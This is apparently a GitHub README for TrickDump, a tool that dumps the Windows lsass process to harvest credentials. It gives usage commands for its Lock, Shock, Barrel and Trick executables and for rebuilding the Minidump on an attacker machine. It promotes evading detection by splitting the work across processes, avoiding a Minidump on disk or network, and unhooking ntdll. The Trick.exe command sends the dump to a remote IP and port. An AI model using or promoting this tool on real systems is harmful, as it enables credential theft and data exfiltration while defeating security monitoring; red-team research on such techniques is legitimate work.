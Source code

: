 # TrickDump

TrickDump dumps the lsass process without creating a Minidump file, generating instead 3 JSON and 1 ZIP file with the memory region dumps. In three steps:

- **Lock**: Get OS information using RtlGetVersion.

- **Shock**: Get SeDebugPrivilege privilege with NtOpenProcessToken and NtAdjustPrivilegeToken, open a handle with NtGetNextProcess and NtQueryInformationProcess and then get modules information using NtQueryInformationProcess and NtReadVirtualMemory.

- **Barrel**: Get SeDebugPrivilege privilege, open a handle and then get information and dump memory regions using NtQueryVirtualMemory and NtReadVirtualMemory. 


![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/trickdump.drawio.png)


In the attack system, use the *create_dump.py* script to generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE] 
```

The benefits of this technique are:

- There is never a valid Minidump file in disk, memory or the network traffic.

- There is not a single program or process executing the whole attack but three separate ones, which may raise less flags.
  - If you prefer to run only one program you can use [Trick](#all-in-one).
  - If you already have information about the OS of the target machine you can skip the first step ("Lock").
  

- The programs only use NTAPIS (this project is a variant of [NativeDump](https://github.com/ricardojoserf/NativeDump)).

- It does not use OpenProcess or NtOpenProcess to get the lsass process handle with the *PROCESS_VM_OPERATION* and *PROCESS_VM_WRITE* access rights.
    
- Each program allows to overwrite the ntdll.dll library ".text" section to bypass API hooking:
  - "disk": Using a DLL already on disk. If a second argument is not used the path is "C:\Windows\System32\ntdll.dll".
  - "knowndlls": Using the KnownDlls folder.
  - "debugproc": Using a process created in debug mode. If a second argument is not used the process is "c:\windows\system32\calc.exe".

It comes in four flavours:

- .NET: The main branch
- Python: The [python-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/python-flavour)
- Golang: The [golang-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/golang-flavour)
- C/C++: The [c-flavour branch](https://github.com/ricardojoserf/TrickDump/tree/c-flavour)


It will not work if PPL is enabled, ~~the PEB structure is unreadable~~ or the binaries are not compiled as 64-bit. **Update**: Now it is possible to execute the programs without reading the PEB, check the [peb-unreadable branch](https://github.com/ricardojoserf/TrickDump/tree/peb-unreadable) :)



-------------------------

## Usage

The programs are executed in the victim system, creating three JSON files (with memory regions information) and one zip file (with each memory region dump).

```
Lock.exe [disk/knowndlls/debugproc]
```

```
Shock.exe [disk/knowndlls/debugproc]
```

```
Barrel.exe [disk/knowndlls/debugproc]
```
You can execute the programs directly without overwriting the ntdll.dll library:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_1.png)

Or use one of the three different overwrite techniques:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_2.png)

Then the Minidump file is generated:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_3.png)

-------------------------

## All in one

If you prefer to execute only one binary, Trick.exe generates a ZIP file containing the 3 JSON files and the ZIP file with the memory regions:

```
Trick.exe [disk/knowndlls/debugproc] [IP_ADDRESS] [PORT]
```

You can create the ZIP file locally, optionally using a Ntdll overwrite method:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_5.png)

Or send it to a remote port using the second and third parameter as the IP address and the port:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_6.png)

In both cases you get a ZIP file like this, unzip it and create the Minidump file:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_7.png)
